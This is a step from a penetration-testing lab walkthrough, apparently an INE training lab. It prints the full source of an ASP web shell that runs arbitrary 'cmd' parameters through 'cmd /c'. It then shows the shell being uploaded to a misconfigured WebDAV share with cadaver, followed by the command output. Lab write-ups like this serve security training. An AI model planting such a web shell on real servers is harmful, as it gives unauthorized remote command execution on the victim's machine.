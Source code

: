 **Step 7**.

We can now take advantage of this misconfiguration and upload a malicious `.asp` backdoor, that allows command execution on the target machine (i.e. `/usr/share/webshells/asp/webshell.asp`), using cadaver utility.

`cat /usr/share/webshells/asp/webshell.asp`:
```
<!DOCTYPE html>
<html>
<head>
    <title>Server Information</title>
</head>
<body>
    <form action="" method="GET">
        <label for="cmd">Enter command:</label>
        <input type="text" name="cmd" id="cmd" size="45" value="<%= szCMD %>"> ←
        <input type="submit" value="Run">
    </form>
    <pre>
        <%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
        <%= Request.ServerVariables("server_name") %>

        <b>The server's port:</b>
        <%= Request.ServerVariables("server_port") %>

        <b>The server's software:</b>
        <%= Request.ServerVariables("server_software") %>

        <b>The server's local address:</b>
        <%= Request.ServerVariables("LOCAL_ADDR") %>

        <% szCMD = Request("cmd") ←
        thisDir = getCommandOutput("cmd /c" & szCMD)
        Response.Write(thisDir) %>
    </pre>
</body>
</html>
```

`cadaver http://demo.ine.local/webdav`:
```
Authentication required for demo.ine.local on server `demo.ine.local':
Username: administrator
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
Coll:   DavTestDir_kUGSP8z7                    0  Feb 13 13:46
        AttackDefense.txt                     13  Jan  2  2021
        web.config                           168  Jan  2  2021
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp ←
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
Coll:   DavTestDir_kUGSP8z7                    0  Feb 13 13:46
        AttackDefense.txt                     13  Jan  2  2021
        web.config                           168  Jan  2  2021
        webshell.asp                        1362  Feb 13 13:56 ←
```
